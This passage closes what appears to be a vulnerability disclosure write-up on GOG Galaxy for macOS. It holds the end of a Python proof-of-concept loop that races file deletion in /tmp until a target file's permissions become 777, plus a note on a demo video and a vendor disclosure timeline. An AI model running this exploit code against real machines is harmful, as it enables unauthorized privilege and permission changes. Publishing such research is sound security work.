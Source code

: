 ```python 
                shutil.rmtree("/tmp/app_test/")
                os.unlink("/tmp/GOG Galaxy.app")

                status = os.stat(target)
                mode_string = str(oct(status.st_mode)[-3:])

                if mode_string == "777":
                        print("exploit succeeded - permisssions of {} changed to 777".format(target))
                        done = True
                        break
                print("time taken {} current mode of {} {}".format(delay,target,mode_string))
        if done:
                break
```

##### Video of the Exploit Running 
The video is sped up 5x because the PoC took upwards of roughly 6 minutes to run in the virtual machine.

![image](/28_november_2023.webm)

### Disclosure Timeline 
- 18/11/2020 - First Contact 
- 16/01/2021 - First Response 
- 18/02/2021 - Still Working On Fix 
- 28/03/2021 - First Fix Release 
- 02/04/2021 - Response that says not all bugs are fixed 
- 03/04/2021 - Provided details on what isn't fixed 
- 05/05/2021 - Last Contact
- 28/11/2023 - Article Posted
